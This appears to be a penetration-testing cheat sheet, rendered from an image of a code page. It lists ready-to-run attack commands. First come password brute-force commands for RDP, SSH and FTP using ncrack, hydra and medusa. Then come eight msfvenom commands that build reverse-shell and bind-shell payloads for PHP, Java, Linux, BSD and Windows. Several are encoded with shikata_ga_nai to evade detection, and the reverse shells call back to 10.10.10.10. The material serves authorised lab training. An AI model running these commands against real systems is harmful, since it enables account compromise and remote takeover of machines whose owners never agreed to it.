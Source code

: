 RDP user with password list

` ncrack -vv --user offsec -P passwords rdp://10.10.10.10
`

SSH user with password list

` hydra -l user -P pass.txt -t 10 10.10.10.10 ssh -s 22
`

FTP user with password list

` medusa -h 10.10.10.10 -u user -P passwords.txt -M ftp
`

MSFVenom Payloads
 # PHP reverse shell
` msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php
`
 # Java WAR reverse shell
` msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war
`
 # Linux bind shell
` msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai
`
 # Linux FreeBSD reverse shell
` msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf
`
 # Linux C reverse shell
` msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c
`
 # Windows non staged reverse shell
` msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe
 -o non_staged.exe`

 # Windows Staged (Meterpreter) reverse shell
` msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -
 f exe -o meterpreter.exe`

 # Windows Python reverse shell
` msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o
 shell.py`
